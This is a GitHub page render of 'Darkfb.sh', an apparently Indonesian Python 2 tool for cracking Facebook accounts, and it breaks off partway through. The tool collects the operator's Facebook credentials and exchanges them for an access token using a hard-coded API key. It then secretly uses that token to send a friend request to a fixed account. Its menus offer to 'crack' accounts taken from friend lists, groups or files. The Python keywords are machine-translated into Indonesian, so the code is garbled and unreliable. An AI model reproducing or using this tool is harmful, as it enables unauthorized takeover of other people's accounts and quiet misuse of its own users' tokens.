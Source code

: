 
Lewati ke konten
bang-Habib
/
Darkfb.sh
Kode
Masalah
Tarik permintaan
tindakan
Proyek
Wiki
Keamanan
Wawasan
Darkfb.sh/ Darkfb.sh
@bang-Habib
bang-Habib Add files via upload
 1 kontributor
877 baris (830 sloc)  32.4 KB
#!/usr/bin/python2
# pengkodean=utf-8


impor  os , sys , waktu , datetime , acak , hashlib , re , threading , json , urllib , cookielib , permintaan , mekanisasi
dari  multiproses . kolam  impor  ThreadPool
dari  permintaan . pengecualian  impor  ConnectionError
dari  browser impor mekanis  


isi ulang ( sys )
sys . setdefaultencoding ( 'utf8' )
br  =  mekanisasi . Peramban ()
br . set_handle_robots ( Salah )
br . set_handle_refresh ( mekanisasi . _http . HTTPRefreshProcessor (), max_time = 1 )
br . addheaders  = [( 'User-Agent' , 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Versi/12.16' )]


def  Keluar ():
	print  " \033 [1;96m[!] \x1b [1;91mKeluar"
	os . sys . keluar ()
	
	
pasti  acak ( x ):
    w  =  'mhkbpcP'
    t  =  ''
    untuk  saya  di  x :
        d  +=  '!' + w [ acak . randint ( 0 , len ( w ) - 1 )] + i
    kembali  cetak ( d )
    
    
def  cetak ( x ):
    w  =  'mhkbpcP'
    untuk  saya  di  w :
        j  =  w . indeks ( saya )
        x =  x . ganti ( '!%s' % i , ' \033 [%s;1m' % str ( 31 + j ))
    x  +=  ' \033 [0m'
    x  =  x . ganti ( '!0' , ' \033 [0m' )
    sys . stdout . tulis ( x + ' \n ' )
	

def  jalan ( z ):
	untuk  e  dalam  z  +  ' \n ' :
		sys . stdout . write ( e )
		sys . stdout . menyiram ()
		waktu . tidur ( 0,05 )
		
		
logo  =  """   \x1b [1;93m______    \x1b [1;92m_______   \x1b [1;94m______     \x1b [1;91m___ _ \n  \x1b [1;93m| | \x1b [1;92m| _ | \ x1b [1;94m| _ |   \x1b [1;91m| | | | \n  \x1b [1;93m| _ | \x1b [1;92m| |_| | \x1b [1;94m| | ||   \x1b [1;91m| |_| | \n  \x1b [1;93m| | | | \x1b [1;92m| | \x1b [1;94m| |_||_ \x1b [1;91m| _| \n  \x1b[1,93m| |_| | \x1b [1;92m| | \x1b [1;94m| __ | \x1b [1;91m| |_ \n  \x1b [1;93m| | \x1b [1;92m| _ | \x1b [1;94m| | | | \x1b [1;91m| _ | \n  \x1b [1;93m|______| \x1b [1;92m|__| |__| \x1b [1;94m|___| |_| \x1b [1;91m|___| |_| \x1b [1;96mFB \n \n  \x1b [1;95m●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬ ▬▬▬▬▬▬ ● \ n ✫╬─ \ x1b [1; 92mAUTHOR \ x1b [1; 91m: \ x1b[1;93mKrisna ft HABIB                    \x1b [1;95m─╬✫ \n ✫╬─ \x1b [1;92mWhatsApp     \x1b [1;92m \x1b [1;91m: \x1b [1;96m+62 895-6224] -13472 - +62 857-9889-8387      \x1b [1;95m─╬✫ \n ✫╬─ \x1b [1;92mTEAM \x1b [1;91m: \x1b [1;94mTEAM SQUOT BADUT      \x1b [1; 95m─╬✫ \n ●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●
"""

def  tik ():
	titik  = [ '. ' , '.. ' , '... ' ]
	untuk  o  di  titik :
		print ( " \r \033 [1;96m[●] \x1b [1;93mSedang masuk \x1b [1;97m" + o ),; sys . stdout . menyiram (); waktu . tidur ( 1 )


kembali  =  0
benang  = []
berhasil  = []
titik cek  = []
oke  = []
identitas  = []
daftar grup  = []
vulnot  =  " \033 [31mBukan Vuln"
vuln  =  " \033 [32mVuln"

def  siapa ():
	os . sistem ( 'jelas' )
	nama  =  raw_input ( " \033 [1;97mSiapa nama kamu ? \033 [1;91m: \033 [1;92m" )
	jika  nama  == "" :
		print " \033 [1;96m[!] \033 [1;91mIsi yang benar"
		waktu . tidur ( 1 )
		siapa ()
	lain :
		os . sistem ( 'jelas' )
		jalan ( " \033 [1;97mSelamatdatang \033 [1;92m"  + nama +  " \n \033 [1;97mTerimakasih telah menggunakan kontol ini !!" )
		waktu . tidur ( 1 )
		masukSC ()
		
		
def  loginSC ():
	os . sistem ( 'jelas' )
	print " \033 [1;97mSilahkan login SC nya dulu tol \n "
	nama pengguna  =  raw_input ( " \033 [1;96m[*] \033 [1;97mNama Pengguna \033 [1;91m: \033 [1;92m" )
	kata sandi  =  raw_input ( " \033 [1;96m[*] \033 [1;97mPassword \033 [1;91m: \033 [1;92m" )
	jika  username  == "Krisna"  dan  password  == "Habib" :
		print " \033 [1;96m[✓] \033 [1;92mLogin berhasil"
		waktu . tidur ( 1 )
		masuk ()
	lain :
		print " \033 [1;96m[!] \033 [1;91mSalah!!"
		waktu . tidur ( 1 )
                MasukSC ()

def  masuk ():
	os . sistem ( 'jelas' )
	coba :
		toket  =  buka ( 'login.txt' , 'r' )
		menu ()
	kecuali ( KeyError , IOError ):
		os . sistem ( 'jelas' )
		cetak  logo
		cetak  42 * " \033 [1;96m="
		print ( ' \033 [1;96m[☆] \x1b [1;93mLOGIN AKUN FACEBOOK ANDA \x1b [1;96m[☆]' )
		id  =  raw_input ( ' \033 [1;96m[+] \x1b [1;93mID/Email \x1b [1;91m: \x1b [1;92m' )
		pwd  =  raw_input ( ' \033 [1;96m[+] \x1b [1;93mPassword \x1b [1;91m: \x1b [1;92m' )
		tik ()
		coba :
			br . buka ( 'https://m.facebook.com' )
		kecuali  mekanisasi . URLKesalahan :
			print " \n \033 [1;96m[!] \x1b [1;91mTidak ada koneksi"
			keluar ()
		br . _pabrik . is_html  =  Benar
		br . pilih_form ( nr = 0 )
		br . formulir [ 'email' ] =  id
		br . bentuk [ 'lulus' ] =  pwd
		br . kirim ()
		url  =  br . geturl ()
		jika  'simpan-perangkat'  di  url :
			coba :
				sig =  'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail=' + id + 'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword=' + pwd + 'return'
				Data  = { "api_key" : "882a8490361da98702bf97a021ddc14d" , "credentials_type" : "password" , "email" : id , "format" : "JSON" , "generate_machine_id" : "1" , "generate_session_cookies" : "1" , " locale" : "en_US" , "method" : "auth.login" , "password" : pwd , "return_ssl_resources" : "0" , "v" : "1.0"}
				x = hashlib . baru ( "md5" )
				x . memperbarui ( sg )
				a = x . hexdigest ()
				data . pembaruan ({ 'sig' : a })
				url  =  "https://api.facebook.com/restserver.php"
				r = permintaan . dapatkan ( url , params = data )
				z = json . beban ( r . teks )
				unikers  =  buka ( "login.txt" , 'w' )
				unik . tulis ( z [ 'akses_token' ])
				unik . tutup ()
				print  ' \n \033 [1;96m[✓] \x1b [1;92mLogin Berhasil'
				permintaan . posting ( 'https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token=' + z [ 'access_token' ])
				os . sistem ( 'xdg-open https://www.youtube.com/omaliptv' )
				menu ()
			kecuali  permintaan . pengecualian . Kesalahan Koneksi :
				print " \n \033 [1;96m[!] \x1b [1;91mTidak ada koneksi"
				keluar ()
		jika  'pos pemeriksaan'  di  url :
			print ( " \n \033 [1;96m[!] \x1b [1;91mSepertinya akun anda kena checkpoint" )
			os . sistem ( 'rm -rf login.txt' )
			waktu . tidur ( 1 )
			keluar ()
		lain :
			print ( " \n \033 [1;96m[!] \x1b [1;91mPassword/Email salah" )
			os . sistem ( 'rm -rf login.txt' )
			waktu . tidur ( 1 )
			masuk ()
			
			
 menu def ():
	os . sistem ( 'jelas' )
	coba :
		toket = buka ( 'login.txt' , 'r' ). baca ()
	kecuali  IOError :
		os . sistem ( 'jelas' )
		print " \033 [1;96m[!] \x1b [1;91mToken tidak valid"
		os . sistem ( 'rm -rf login.txt' )
		waktu . tidur ( 1 )
		keluar ()
	coba :
		otw  =  permintaan . dapatkan ( 'https://graph.facebook.com/me?access_token=' + toket )
		a  =  json . beban ( otw . teks )
		nama  =  a [ 'nama' ]
		id  =  a [ 'id' ]
	kecuali  KeyError :
		os . sistem ( 'jelas' )
		print " \033 [1;96m[!] \033 [1;91mToken tidak valid"
		os . sistem ( 'rm -rf login.txt' )
		waktu . tidur ( 1 )
		masuk ()
	kecuali  permintaan . pengecualian . Kesalahan Koneksi :
		print " \033 [1;96m[!] \x1b [1;91mTidak ada koneksi"
		keluar ()
	os . sistem ( "jelas" )
	cetak  logo
	cetak  42 * " \033 [1;96m="
	print  " \033 [1;96m[ \033 [1;97m✓ \033 [1;96m] \033 [1;93m Nama \033 [1;91m: \033 [1;92m" + nama + " \033] [1;97m "
	print  " \033 [1;96m[ \033 [1;97m✓ \033 [1;96m] \033 [1;93m ID    \033 [1;91m: \033 [1;92m" + id + " \x1b] [1;97m "
	cetak  42 * " \033 [1;96m="
	print  " \x1b [1;97m1. \x1b [1;93m Hack facebook MBF"
	print  " \x1b [1;97m2. \x1b [1;93m Lihat daftar grup "
	print  " \x1b [1;97m3. \x1b [1;93m Informasi akun "
	print  " \x1b [1;97m4. \x1b [1;93m Yahoo clone "
	print  " \n \x1b [1;91m0. \x1b [1;91m Logout "
	pilih ()


pasti  pilih ():
	unikers  =  raw_input ( " \n \033 [1;97m >>> \033 [1;97m" )
	jika  unikers  == "" :
		print  " \033 [1;96m[!] \x1b [1;91mIsi yang benar"
		pilih ()
	elif  unikers  == "1" :
		super ()
	elif  unikers  == "2" :
		grupsaya ()
	elif  unikers  == "3" :
		informasi ()
	elif  unikers  == "4" :
		yahoo ()
	elif  unikers  == "0" :
		os . sistem ( 'jelas' )
		jalan ( 'Menghapus token' )
		os . sistem ( 'rm -rf login.txt' )
		keluar ()
	lain :
		print  " \033 [1;96m[!] \x1b [1;91mIsi yang benar"
		pilih ()
		
		
def  super ():
	 toket global
	os . sistem ( 'jelas' )
	coba :
		toket = buka ( 'login.txt' , 'r' ). baca ()
	kecuali  IOError :
		print " \033 [1;96m[!] \x1b [1;91mToken tidak valid"
		os . sistem ( 'rm -rf login.txt' )
		waktu . tidur ( 1 )
		keluar ()
	os . sistem ( 'jelas' )
	cetak  logo
	cetak  42 * " \033 [1;96m="
	print  " \x1b [1;97m1. \x1b [1;93m Crack dari daftar teman"
	print  " \x1b [1;97m2. \x1b [1;93m Crack dari teman"
	print  " \x1b [1;97m3. \x1b [1;93m Crack dari member grup"
	print  " \x1b [1;97m4. \x1b [1;93m Crack dari file"
	print  " \n \x1b [1;91m0. \x1b [1;91m Kembali"
	pilih_super ()

def  pilih_super ():
	peak  =  raw_input ( " \n \033 [1;97m >>> \033 [1;97m" )
	jika  puncak  == "" :
		print  " \033 [1;96m[!] \x1b [1;91mIsi yang benar"
		pilih_super ()
	 puncak  elif == "1" :
		os . sistem ( 'jelas' )
		cetak  logo
		cetak  42 * " \033 [1;96m="
		jalan ( ' \033 [1;96m[✺] \033 [1;93mMengambil ID \033 [1;97m...' )
		r  =  permintaan . dapatkan ( "https://graph.facebook.com/me/friends?access_token=" + toket )
		z  =  json . beban ( r . teks )
		untuk  s  dalam  z [ 'data' ]:
			id . tambahkan ( s [ 'id' ])
	 puncak  elif == "2" :
		os . sistem ( 'jelas' )
		cetak  logo
		cetak  42 * " \033 [1;96m="
		idt  =  raw_input ( " \033 [1;96m[+] \033 [1;93mMasukan ID teman \033 [1;91m: \033 [1;97m" )
		coba :
			lelucon  =  permintaan . dapatkan ( "https://graph.facebook.com/" + idt + "?access_token=" + toket )
			op  =  json . beban ( lelucon . teks )
			print " \033 [1;96m[ \033 [1;97m✓ \033 [1;96m] \033 [1;93mNama teman \033 [1;91m : \033 [1;97m " + op [ "nama"" ]
		kecuali  KeyError :
			print " \033 [1;96m[!] \x1b [1;91mTeman tidak ditemukan!"
			raw_input ( " \n \033 [1;96m[ \033 [1;97mKembali \033 [1;96m]" )
			super ()
		jalan ( ' \033 [1;96m[✺] \033 [1
